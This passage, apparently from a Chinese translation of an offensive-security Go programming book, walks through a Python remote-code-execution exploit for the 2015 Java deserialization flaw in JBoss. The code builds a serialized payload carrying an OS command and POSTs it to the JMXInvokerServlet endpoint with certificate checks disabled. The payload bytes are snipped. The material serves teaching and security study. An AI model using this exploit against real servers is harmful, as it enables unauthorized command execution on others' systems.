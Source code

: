 os 执行并与本地操作系统交互

syscall 提供一个接口，用于进行低级系统调用

unicode 使用 UTF-16 或 UTF-8 编码和解码数据

unsafe 用于避免 Go 在与操作系统交互时的类型安全检查

诚然，这些包在后续章节中会更加有用，特别是当我们讨论低级 Windows 交互时，但我们列出了这个清单供你参考。与其详细介绍这些包，我们将向你展示如何使用其中的一些包移植现有的漏洞利用代码。

#### 从 Python 移植漏洞

在这个第一个示例中，你将移植一个 2015 年发布的 Java 反序列化漏洞的利用代码。这个漏洞被归类为多个 CVE，影响了常见应用、服务器和库中 Java 对象的反序列化。¹ 这个漏洞是由一个不验证输入的反序列化库引入的，输入未经过服务器端执行前的验证（这是漏洞的常见原因）。我们将重点讨论利用 JBoss，这是一款流行的 Java 企业版应用服务器。在 *[`github.com/roo7break/serialator/blob/master/serialator.py`](https://github.com/roo7break/serialator/blob/master/serialator.py)*，你会找到一个 Python 脚本，包含了利用该漏洞的逻辑，适用于多个应用程序。Listing 9-3 提供了你将要复制的逻辑。

```
def jboss_attack(HOST, PORT, SSL_On, _cmd):
    # The below code is based on the jboss_java_serialize.nasl script within Nessus
    """
    This function sets up the attack payload for JBoss
    """
    body_serObj = hex2raw3("ACED000573720032737--SNIPPED FOR BREVITY--017400") ❶

    cleng = len(_cmd)
    body_serObj += chr(cleng) + _cmd ❷
    body_serObj += hex2raw3("740004657865637571--SNIPPED FOR BREVITY--7E003A") ❸

    if SSL_On: ❹
        webservice = httplib2.Http(disable_ssl_certificate_validation=True)
        URL_ADDR = "%s://%s:%s" % ('https',HOST,PORT)
    else:
        webservice = httplib2.Http()
        URL_ADDR = "%s://%s:%s" % ('http',HOST,PORT)
    headers = {"User-Agent":"JBoss_RCE_POC", ❺
            "Content-type":"application/x-java-serialized-object--SNIPPED FOR BREVITY--",
            "Content-length":"%d" % len(body_serObj)
        }
    resp, content = webservice.request❻ (
        URL_ADDR+"/invoker/JMXInvokerServlet",
        "POST",
        body=body_serObj,
        headers=headers)
    # print provided response.
    print("[i] Response received from target: %s" % resp)
```

*Listing 9-3: Python 序列化漏洞利用代码*

让我们看看你正在处理的内容。这个函数接收主机、端口、SSL 指示符和操作系统命令作为参数。为了构建正确的请求，函数必须创建一个表示序列化 Java 对象的有效负载。该脚本通过将一系列字节硬编码到一个名为`body_serObj`的变量中开始❶。这些字节为了简洁已被省略，但请注意它们在代码中以字符串值表示。这是一个十六进制字符串，你需要将其转换为字节数组，使得字符串中的两个字符成为一个字节的表示。例如，你需要将`AC`转换为十六进制字节`\xAC`。为了完成这个转换，漏洞代码调用了一个名为`hex2raw3`的函数。只要你明白十六进制字符串正在发生什么，函数的具体实现细节并不重要。

接下来，脚本计算操作系统命令的长度，然后将长度和命令附加到 `body_serObj` 变量 ❷。脚本通过附加其他数据，表示 Java 序列化对象的剩余部分，以 JBoss 可以处理的格式，完成有效负载的构建 ❸。一旦有效负载构建完成，脚本生成 URL 并设置 SSL，以忽略无效证书（如有需要） ❹。然后，它设置所需的 `Content-Type` 和 `Content-Length` HTTP 头 ❺，并将恶意请求发送到目标服务器 ❻。
